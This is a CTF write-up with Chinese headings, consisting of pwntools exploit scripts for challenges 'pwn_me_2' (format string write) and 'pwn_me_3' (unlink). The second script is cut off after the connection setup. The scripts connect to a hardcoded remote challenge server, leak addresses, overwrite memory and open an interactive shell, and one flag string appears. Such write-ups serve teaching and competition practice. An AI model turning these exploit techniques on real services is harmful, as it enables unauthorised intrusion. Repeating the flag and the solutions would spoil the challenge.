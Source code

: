 ### pwn_me_2
基础格式化字符串
```
#coding:utf-8

from pwn import *

path = './pwn_me_2'
local = 0
attach = 0
#P = ELF(path)
context(os='linux',arch='amd64',terminal=['terminator','-x','sh','-c'])
context.log_level = 'debug'

if local == 1:
	p = process(path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('139.129.76.65',50005)

p.recvuntil('but your name:\n')
p.send('%p'*15)

p.recvuntil('preparing......\n')
base = int(p.recv(14),16) - (0x55f5229a5080-0x000055f5227a3000)
log.success('base = '+hex(base))

target = base+0x2020e0

p.recvuntil('what do you want?\n')
payload = '%'+str(0x66)+'c%10$hhn'+'%'+str(0x666666-0x66)+'c%11$lln....'+p64(target)+p64(target+1) 
p.send(payload)

#NCTF{rrr_loves_pwn_and_100years}
if attach == 1:
	gdb.attach(p)
p.interactive()
```
### pwn_me_3
基础unlink
```
#coding:utf-8

from pwn import *

path = './pwn_me_3'
local = 1
attach = 0
#P = ELF(path)
context(os='linux',arch='amd64',terminal=['terminator','-x','sh','-c'])
context.log_level = 'debug'

if local == 0:
	p = process(path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('139.129.76.65',50006)
```